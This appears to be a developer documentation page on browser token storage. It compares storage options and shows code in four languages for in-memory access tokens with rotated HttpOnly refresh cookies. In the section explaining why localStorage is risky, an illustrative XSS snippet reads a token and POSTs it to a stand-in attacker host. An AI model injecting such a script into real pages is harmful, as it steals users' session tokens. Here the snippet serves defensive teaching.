


import { Tabs, TabItem } from '@astrojs/starlight/components';
import { Aside, Card, CardGrid, Steps, Badge } from '@astrojs/starlight/components';

Choosing where to store tokens in the browser involves security tradeoffs between XSS and CSRF risks.

## Storage Options Compared

| Storage | XSS Risk | CSRF Risk | Persists | Verdict |
|---|---|---|---|---|
| `localStorage` | ❌ High — any script can read | ✅ Low — not auto-sent | ✅ Yes | ❌ Avoid for sensitive tokens |
| `sessionStorage` | ❌ High — same as localStorage | ✅ Low | ❌ No (tab close) | ❌ Avoid for sensitive tokens |
| `HttpOnly Cookie` | ✅ None — JS can't access | ❌ High — auto-sent | ✅ Optional | ✅ Use for refresh tokens |
| `JS memory (variable)` | ✅ Low — not accessible cross-script | ✅ Low | ❌ No (page reload) | ✅ Best for access tokens |
| `Service Worker` | ✅ Good isolation | ✅ Low | ❌ No | ✅ Advanced SPA option |
| `IndexedDB` | ❌ High — JS-accessible | ✅ Low | ✅ Yes | ❌ Avoid for auth tokens |

## Recommended Pattern (SPAs)

```
Access token:   Store in memory (JS variable) — short lived (15 min)
                ↓ lost on page reload, but...
Refresh token:  Store in HttpOnly Secure SameSite=Lax cookie
                ↓ used to silently get new access tokens on reload

On page load:   Call /auth/refresh silently
                ← new access token returned in response body
                ← store in memory variable
                ← refresh token cookie rotated automatically
```

The following module shows the full SPA token lifecycle: silent refresh on page load, access token stored in a JS module variable, and logout that clears both.

<Tabs>
<TabItem label="JavaScript">
```javascript
// auth.js
let accessToken = null;

export async function initAuth() {
  // Silent refresh on page load — uses HttpOnly cookie automatically
  try {
    const res = await fetch('/auth/refresh', {
      method: 'POST',
      credentials: 'include', // send HttpOnly cookie
    });
    if (res.ok) {
      const data = await res.json();
      accessToken = data.access_token;
    }
  } catch {
    // User not authenticated
  }
}

export function getAccessToken() {
  return accessToken;
}

export async function logout() {
  await fetch('/auth/logout', { method: 'POST', credentials: 'include' });
  accessToken = null;
}
```
</TabItem>
<TabItem label="Python">
```python
# auth_state.py — server-side session management pattern
# On the server, store the refresh token in an HttpOnly cookie
# and keep the access token in server session or return it to the client

from fastapi import FastAPI, Response, Cookie
from fastapi.responses import JSONResponse
import httpx

app = FastAPI()

@app.post("/auth/refresh")
async def refresh(
    response: Response,
    refresh_token: str = Cookie(default=None)
):
    if not refresh_token:
        return JSONResponse(status_code=401, content={"error": "Not authenticated"})

    # Exchange refresh token with auth server
    async with httpx.AsyncClient() as client:
        token_response = await client.post(
            "https://auth.example.com/token",
            data={
                "grant_type": "refresh_token",
                "refresh_token": refresh_token,
                "client_id": CLIENT_ID,
            },
        )

    if not token_response.is_success:
        return JSONResponse(status_code=401, content={"error": "Session expired"})

    tokens = token_response.json()

    # Rotate the refresh token — set new HttpOnly cookie
    response.set_cookie(
        key="refresh_token",
        value=tokens["refresh_token"],
        httponly=True,
        secure=True,
        samesite="lax",
        max_age=30 * 24 * 60 * 60,  # 30 days
    )

    # Return new access token in response body (client stores in memory)
    return {"access_token": tokens["access_token"]}

@app.post("/auth/logout")
async def logout(response: Response):
    response.delete_cookie("refresh_token")
    return {"ok": True}
```
</TabItem>
<TabItem label="C#">
```csharp
// TokenService.cs — manages access token in memory + refresh cookie
public class TokenService
{
    private string? _accessToken;

    public string? AccessToken => _accessToken;

    public async Task InitAuthAsync(HttpClient client)
    {
        // Silent refresh on startup — HttpOnly cookie sent automatically
        try
        {
            var response = await client.PostAsync("/auth/refresh", null);
            if (response.IsSuccessStatusCode)
            {
                var json = await response.Content.ReadFromJsonAsync<JsonElement>();
                _accessToken = json.GetProperty("access_token").GetString();
            }
        }
        catch
        {
            // User not authenticated
        }
    }

    public void SetAccessToken(string token) => _accessToken = token;
    public void ClearAccessToken() => _accessToken = null;
}

// In the controller — set HttpOnly cookie on login
Response.Cookies.Append("refresh_token", refreshToken, new CookieOptions
{
    HttpOnly  = true,
    Secure    = true,
    SameSite  = SameSiteMode.Lax,
    MaxAge    = TimeSpan.FromDays(30),
});

// Return new access token in response body
return Ok(new { access_token = newAccessToken });
```
</TabItem>
<TabItem label="Java">
```java
// TokenService.java — manages access token in memory
@Service
public class TokenService {

    private volatile String accessToken;

    public String getAccessToken() {
        return accessToken;
    }

    public void setAccessToken(String token) {
        this.accessToken = token;
    }

    public void clearAccessToken() {
        this.accessToken = null;
    }
}

// In the controller — set HttpOnly cookie and return access token in body
@PostMapping("/auth/refresh")
public ResponseEntity<?> refresh(
        @CookieValue(name = "refresh_token", required = false) String refreshToken,
        HttpServletResponse response) {

    if (refreshToken == null) {
        return ResponseEntity.status(401).body(Map.of("error", "Not authenticated"));
    }

    TokenPair tokens = authService.refreshTokens(refreshToken);

    // Rotate refresh token as HttpOnly cookie
    Cookie cookie = new Cookie("refresh_token", tokens.refreshToken());
    cookie.setHttpOnly(true);
    cookie.setSecure(true);
    cookie.setPath("/");
    cookie.setMaxAge(30 * 24 * 60 * 60); // 30 days
    response.addCookie(cookie);

    // Return new access token in body (client stores in memory)
    return ResponseEntity.ok(Map.of("access_token", tokens.accessToken()));
}
```
</TabItem>
</Tabs>

## Why NOT localStorage

Any script running on your page can read `localStorage` — including injected XSS payloads. An `HttpOnly` cookie is invisible to JavaScript entirely.

```javascript
// Attacker injects this script via XSS:
const token = localStorage.getItem('access_token');
await fetch('https://evil.com/steal', {
  method: 'POST',
  body: token, // token exfiltrated
});

// With HttpOnly cookie: this script cannot access the token at all.
```



## Recommended Token Storage — Summary


